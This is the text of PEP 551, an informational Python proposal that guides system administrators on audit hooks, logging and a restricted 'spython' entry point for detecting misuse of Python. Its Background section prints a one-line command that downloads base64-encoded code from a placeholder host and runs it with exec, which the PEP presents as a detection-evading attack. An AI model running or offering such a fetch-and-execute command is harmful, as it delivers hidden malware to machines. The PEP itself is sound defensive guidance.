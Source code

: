 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Informational
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

Relationship to PEP 578
=======================

This PEP has been split into two since its original posting.

See `PEP 578 <https://www.python.org/dev/peps/pep-0578/>`_ for the
auditing APIs proposed for addition to the next version of Python.

This is now an informational PEP, providing guidance to those planning
to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in PEP-578 are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. With PEP 578, the Python
runtime gains the ability to provide this. The aim of this PEP is to
assist system administrators with deploying a security transparent
version of Python that can integrate with their existing auditing and
protection systems.

On Windows, some specific features that may be integrated through the
hooks added by PEP 578 include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be integrated are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

Summary Recommendations
=======================

These are discussed in greater detail in later sections, but are
presented here to frame the overall discussion.

Sysadmins should provide and use an alternate entry point (besides
``python.exe`` or ``pythonX.Y``) in order to reduce surface area and
securely enable audit hooks. A discussion of what could be restricted
is below in `Restricting the Entry Point`_.

Sysadmins should use all available measures provided by their operating
system to prevent modifications to their Python installation, such as
file permissions, access control lists and signature validation.

Sysadmins should log everything and collect logs to a central location
as quickly as possible - avoid keeping logs on outer-ring machines.

Sysadmins should prioritize _detection_ of misuse over _prevention_ of
misuse.


Restricting the Entry Point
===========================

One of the primary vulnerabilities exposed by the presence of Python
on a machine is the ability to execute arbitrary code without
detection or verification by the system. This is made significantly
easier because the default entry point (``python.exe`` on Windows and
``pythonX.Y`` on other platforms) allows execution from the command
line, from standard input, and does not have any hooks enabled by
default.

Our recommendation is that production machines should use a modified
entry point instead of the default. Once outside of the development
environment, there is rarely a need for the flexibility offered by the
default entry point.

In this section, we describe a hypothetical ``spython`` entry point
(``spython.exe`` on Windows; ``spythonX.Y`` on other platforms) that
provides a level of security transparency recommended for production
machines. An associated example implementation shows many of the
features described here, though with a number of concessions for the
sake of avoiding platform-specific code. A sufficient implementation
will inherently require some integration with platform-specific
security features.

Official distributions will not include any ``spython`` by default, but
third party distributions may include appropriately modified entry
points that use the same name.

**Remove most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options to precede it. This
prevents arbitrary code execution from in-memory data or non-script
files (such as pickles, which could be executed using
``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

For the sake of demonstration, the example implementation of
``spython`` also allows the ``-i`` option to start in interactive mode.
This is not recommended for restricted entry points.

**Log audited events**

Before initialization, ``spython`` sets an audit hook that writes all
audited events to an OS-managed log file. On Windows, this is the Event
Tracing functionality,[7]_ and on other platforms they go to
syslog.[11]_ Logs are copied from the machine as frequently as possible
to prevent loss of information should an attacker attempt to clear
local logs or prevent legitimate access to the machine.

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

The logging hook is written in native code and configured before the
interpreter is initialized. This is the only opportunity to ensure that
no Python code executes without auditing, and that Python code cannot
prevent registration of the hook.

Our primary aim is to record all actions taken by all Python processes,
so that detection may be performed offline against logged events.
Having all events recorded also allows for deeper analysis and the use
of machine learning algorithms. These are useful for detecting
persistent attacks, where the attacker is intending to remain within
the protected machines for some period of time, as well as for later
analysis to determine the impact and exposure caused by a successful
attack.

The example implementation of ``spython`` writes to a log file on the
local machine, for the sake of demonstration. When started with ``-i``,
the example implementation writes all audit events to standard error
instead of the log file. The ``SPYTHONLOG`` environment variable can be
used to specify the log file location.

**Restrict importable modules**

Also before initialization, ``spython`` sets an open-for-import hook
that validates all files opened with ``os.open_for_import``. This
implementation requires all files to have a ``.py`` suffix (preventing
the use of cached bytecode), and will raise a custom audit event
``spython.open_for_import`` containing ``(filename, True_if_allowed)``.

After opening the file, the entire contents is read into memory in a
single buffer and the file is closed.

Compilation will later trigger a ``compile`` event, so there is no need
to validate the contents now using mechanisms that also apply to
dynamically generated code. However, if a whitelist of source files or
file hashes is available, then this is the point

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

**Prevent os.system**

The ``spython`` entry point aborts all ``os.system`` calls.

It should be noted here that ``subprocess.Popen(shell=True)`` is
allowed (though logged via the platform-specific process creation
events). This tradeoff is made because it is much simpler to induce a
running application to call ``os.system`` with a single string argument
than a function with multiple arguments, and so it is more likely to be
used as part of an exploit. There is also little justification for
using ``os.system`` in production code, while ``subprocess.Popen`` has
a large number of legitimate uses. Though logs indicating the use of
the ``shell=True`` argument should be more carefully scrutinised.

Sysadmins are encouraged to make these kinds of tradeoffs between
restriction and detection, and generally should prefer detection.

General Recommendations
=======================

Recommendations beyond those suggested in the previous section are
difficult, as the ideal configuration for any environment depends on
the sysadmin's ability to manage, monitor, and respond to activity on
their own network. Nonetheless, here we attempt to provide some context
and guidance for integrating Python into a complete system.

This section provides recommendations using the terms **should** (or
**should not**), indicating that we consider it risky to ignore the
advice, and **may**, indicating that for the advice ought to be
considered for high value systems. The term **sysadmin** refers to
whoever is responsible for deploying Python throughout the network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

Things not to do
================

This section discusses common or "obviously good" recommendations that
we are specifically *not* making. These range from useless or incorrect
through to ideas that are simply not feasible in any real world
environment.

**Do not** attempt to implement a sandbox within the Python runtime.
There is a long history of attempts to allow arbitrary code limited use
of Python features (such as [14]_), but no general success. The best
options are to run unrestricted Python within a sandboxed environment
with at least hypervisor-level isolation, or to prevent unauthorised
code from starting at all.

**Do not** rely on static analysis to verify untrusted code before use.
The best options are to pre-authorise trusted code, such as with code
signing, and if not possible to identify known-bad code, such as with
an anti-malware scanner.

**Do not** use audit hooks to abort operations without logging the
event first. You will regret not knowing why your process disappeared.

[TODO - more bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] Antimalware Scan Interface, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

.. [14] The failure of pysandbox `<https://lwn.net/Articles/574215/>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017-2018 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
